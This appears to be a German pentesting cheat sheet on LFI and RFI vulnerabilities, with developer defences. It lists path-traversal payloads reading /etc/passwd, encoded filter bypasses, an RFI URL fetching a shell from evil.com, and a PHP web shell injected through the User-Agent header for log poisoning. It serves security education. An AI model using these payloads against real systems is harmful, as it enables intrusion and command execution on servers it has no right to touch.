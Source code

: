 Inhalt für web-pentesting/file-inclusion.md

# 📂 File Inclusion (LFI / RFI)

File Inclusion ist eine Schwachstelle, bei der ein Angreifer die Möglichkeit hat, Dateien auf dem Server einzubinden und anzuzeigen (LFI) oder sogar externe Dateien aus dem Internet nachzuladen (RFI).

---

## 🔍 Arten von File Inclusion

### 📌 1. LFI – Local File Inclusion
- Eingebundene Datei stammt **vom selben Server**
- Zugriff auf `/etc/passwd`, Logfiles, Source-Code etc.
- Beispiel-URL:

?page=../../../../etc/passwd


### 🌍 2. RFI – Remote File Inclusion (seltener)
- Server lädt externe Datei per URL
- Beispiel:

?page=http://evil.com/shell.txt

- Funktioniert nur bei schlecht konfigurierten Servern mit `allow_url_include = On`

---

## 🧪 Testmethoden

### 🔹 Basis-Test:
```bash
?page=../../../../etc/passwd

🔹 Filter umgehen:

?page=....//....//etc/passwd
?page=..%2f..%2f..%2fetc%2fpasswd

🔹 Log Poisoning (z. B. bei LFI + Code Execution):

    User-Agent manipulieren:

User-Agent: <?php system($_GET['cmd']); ?>

    LFI auf /var/log/apache2/access.log

    Zugriff mit:

?page=/var/log/apache2/access.log&cmd=id

🧰 Tools & Hilfen
Tool	Zweck
Burp Suite	Parameter testen, Input fuzzing
ffuf / wfuzz	Pfadfuzzing, Wordlists einsetzen
SecLists	Wordlists: LFI-LFI.txt, Unix-Paths
🛡️ Schutzmaßnahmen (für Entwickler)

    Whitelisting erlaubter Dateien

    Keine dynamische Einbindung von User-Input

    Pfade auflösen & validieren (realpath)

    allow_url_include deaktivieren (PHP)

📚 Weitere Infos & Payloads:
PayloadAllTheThings – File Inclusion
